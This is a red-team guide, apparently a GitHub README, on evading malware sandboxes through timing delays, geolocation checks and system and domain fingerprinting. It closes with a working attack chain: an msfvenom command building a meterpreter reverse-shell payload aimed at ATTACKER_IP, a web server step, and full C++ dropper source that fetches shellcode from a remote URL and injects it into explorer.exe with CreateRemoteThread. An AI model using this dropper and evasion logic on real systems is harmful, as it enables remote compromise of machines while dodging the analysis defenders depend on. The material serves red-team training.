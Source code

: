 # Common sandbox evasion techniques

Some practical knowledge to help out in Red Team operations (from basic techniques to the most advanced):

* Sleeping through sandboxes
* Geolocation and geoblocking
* Checking system information
* Querying network information

## Sleeping through sandboxes

Malware Sandboxes are often limited to a time constraint to prevent the overallocation of resources, which may 
increase the Sandboxes queue drastically. This is a crucial aspect that can be abused. For example, if we know that 
a Sandbox will only run for five minutes at any given time, we can implement a sleep timer that sleeps for five 
minutes before executing shellcode. 

This could be done in any number of ways: 

* One common way is to query the current system time and, in a parallel thread, check and see how much time has 
elapsed. After the five minutes have passed, the program can begin normal execution.
* Another popular method is to do complex, compute-heavy math, which may take a certain amount of time — for example, 
calculating the Fibonacci sequence up to a given number. It may take more or less time to do so based on the system's 
hardware. Masking the application is generally a good idea to avoid Anti-Virus detections in general.

Beware that some sandboxes may alter built-in sleep functions. Several Anti-Virus vendors have put out blog posts 
about bypassing built-in sleep functions. So it is highly recommended to develop our own sleep function.

## Geolocation and geoblocking

One defining factor of Sandboxes is that they are often located off-premise and are hosted by Anti-Virus providers. 
If you know you are attacking TryHackMe, a European company, and your binary is executed in California, you can make 
an educated guess that the binary has ended up in a Sandbox. You may choose to implement a geolocation filter on 
your program that checks if the IP Address block is owned by the company you are targeting or if it is from a 
residential address space. 

IfConfig.me can be used to retrieve your current IP Address, with additional information being optional. Combining 
this with ARIN's RDAP allows you to determine the ISP returned in an easy to parse format (JSON). That will, ofcourse, 
will only work if the host has internet access. Some organizations may build a block list of specific domains, so you 
should be 100% sure that this method will work for the organization you are attempting to leverage this against.

## Checking system information.

Another incredibly popular method is to observe system information. Most Sandboxes typically have reduced resources. 
A popular Malware Sandbox service, Any.Run, only allocates 1 CPU core and 4GB of RAM per virtual machine.

Most workstations in a network typically have 2-8 CPU cores, 8-32GB of RAM, and 256GB-1TB+ of drive space. This is 
incredibly dependent on the organisation that you are targeting, but generally, you can expect more than 2 CPU cores 
per system and more than 4GB of RAM. Knowing this, we can tailor our code to query for basic system info (CPU core 
count, RAM amount, Disk size, etc).

Some additional examples of things to filter on:

* Storage Medium Serial Number
* PC Hostname
* BIOS/UEFI Version/Serial Number
* Windows Product Key/OS Version
* Network Adapter Information
* Virtualization Checks
* Current Signed in User
* ...

## Querying network information

Almost no Malware Sandboxes are joined in a domain, so it's relatively safe to assume if the machine is not joined 
to a domain, it is not the right target. You cannot always be too sure, so collect some information about the domain 
to be safe, for example. check:

* Computers
* User accounts
* Last User Login(s)
* Groups
* Domain Admins
* Enterprise Admins
* Domain Controllers
* Service Accounts
* DNS Servers

These techniques can vary in difficulty. Consider how much time and effort to spend building out these evasion methods. 
A simple method, such as checking the systems environment variables (this can be done with `echo %VARIABLE%` or to 
display all variables, use the `set` command) for an item like the `LogonServer`, `LogonUserSid`, or `LogonDomain` 
may be much easier than implementing a Windows API.

## Setting the stage

1. Create a basic dropper that retrieves shellcode from a Web Server (specifically from `/index.raw`) and injects it 
into memory, and executes the shellcode. All shellcode must be generated with MSFVenom in a raw format, and must be 
64-bit, not 32-bit.

```text
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f raw -o index.raw
```

2. Prepare for download on the target machine:

```text
$ python3 -m http.server 8080
```

3. Download the `dropper.cpp`, and [open it in Visual Studio Code or Codium](https://code.visualstudio.com/docs/languages/cpp).

```text
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>
#include <urlmon.h>
#include <cstdio>
#pragma comment(lib, "urlmon.lib")

using namespace std;

int downloadAndExecute()
{
    HANDLE hProcess;
//Update the dwSize variable with your shellcode size. This should be approximately 510 bytes
    SIZE_T dwSize = YOURSHELLCODESIZE;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
//Update the OpenProcess Windows API with your Explorer.exe Process ID. This can be found in Task Manager
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, explorer.exe-pid);
//Update the c2URL with your IP Address and the specific URI where your raw shellcode is stored.
    const char* c2URL = "http://yourip/index.raw";
    IStream* stream;
//Update the buff[] variable to include your shellcode size
    char buff[YOURSHELLCODESIZE];
    unsigned long bytesRead;
    string s;
    URLOpenBlockingStreamA(0, c2URL, &stream, 0, 0);
    while (true) {
//Update the Read file descriptor to include your shellcode size
        stream->Read(buff, YOURSHELLCODESIZE, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    memAddr = VirtualAllocEx(hProcess, NULL, dwSize, flAllocationType, flProtect);

    WriteProcessMemory(hProcess, memAddr, buff, dwSize, &bytesOut);

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    stream->Release();
    return 0;
}

int main() {
    downloadAndExecute();
    return 0;
}
```

4. There are several placeholder values on lines 16, 22, 24, 27, and 33 that must be altered to make the code function 
properly. Once you have entered the values, compile the code for a 64-bit release.

## Resources

* [Evasions: Timing](https://evasions.checkpoint.com/techniques/timing.html)
* [Threading based Sleep Evasion](https://www.joesecurity.org/blog/660946897093663167)
* [What Is My IP Address? - ifconfig.me](https://ifconfig.me/)
* [APNIC RDAP API](https://rdap.apnic.net/ip/1.1.1.1)